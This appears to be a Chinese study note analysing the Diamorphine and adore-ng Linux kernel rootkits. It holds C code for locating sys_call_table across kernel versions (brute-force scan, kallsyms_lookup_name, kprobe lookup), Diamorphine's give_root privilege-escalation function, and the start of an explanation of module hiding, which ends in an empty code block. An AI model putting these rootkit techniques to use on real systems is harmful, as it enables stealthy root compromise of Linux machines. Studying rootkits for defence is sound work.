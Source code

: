 # Diamorphine

### syscall_table 获取

##### LINUX_VERSION_CODE 《= KERNEL_VERSION(4, 4, 0)

暴力搜索：

```c
	unsigned long int i;

	for (i = (unsigned long int)sys_close; i < ULONG_MAX;
			i += sizeof(void *)) {
		syscall_table = (unsigned long *)i;

		if (syscall_table[__NR_close] == (unsigned long)sys_close)
			return syscall_table;
	}
	return NULL;
```

##### LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0) &&  LINUX_VERSION_CODE < KERNEL_VERSION(5,7,0)

```c
syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

##### LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)

当内核版本 >= KERNEL_VERSION(5,7,0) 时候，kallsyms_lookup_name 不在导出，需要通过 kprobe获取其地址：

```c
#include <linux/kprobes.h>
static struct kprobe kp = {
	    .symbol_name = "kallsyms_lookup_name"
};

typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

kallsyms_lookup_name_t kallsyms_lookup_name;
register_kprobe(&kp);
kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
unregister_kprobe(&kp);

syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

### 权限提升

```c
void
give_root(void)
{
	#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
		current->uid = current->gid = 0;
		current->euid = current->egid = 0;
		current->suid = current->sgid = 0;
		current->fsuid = current->fsgid = 0;
	#else
		struct cred *newcreds;
		newcreds = prepare_creds();
		if (newcreds == NULL)
			return;
		#if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 5, 0) \
			&& defined(CONFIG_UIDGID_STRICT_TYPE_CHECKS) \
			|| LINUX_VERSION_CODE >= KERNEL_VERSION(3, 14, 0)
			newcreds->uid.val = newcreds->gid.val = 0;
			newcreds->euid.val = newcreds->egid.val = 0;
			newcreds->suid.val = newcreds->sgid.val = 0;
			newcreds->fsuid.val = newcreds->fsgid.val = 0;
		#else
			newcreds->uid = newcreds->gid = 0;
			newcreds->euid = newcreds->egid = 0;
			newcreds->suid = newcreds->sgid = 0;
			newcreds->fsuid = newcreds->fsgid = 0;
		#endif
		commit_creds(newcreds);
	#endif
}
```

# adore-ng

### 模块隐藏

通过对adore-ng 代码分析，我们还需要对 /sys/module 下的 模块文件进行隐藏。

sysfs 是 Linux 内核中的一个虚拟文件系统，它提供了一个统一的接口来访问内核对象，kobject 代表一个内核对象，而 kset 是一组 kobject 的集合。

内核模块加载时，调用 mod_sysfs_setup(/kernel/module/sysfs.c) 函数，初始化其对应的 /sys/module下面的目录。



```

```





# 资料

Diamorphine

https://github.com/m0nad/Diamorphine

adore-ng

https://github.com/yaoyumeng/adore-ng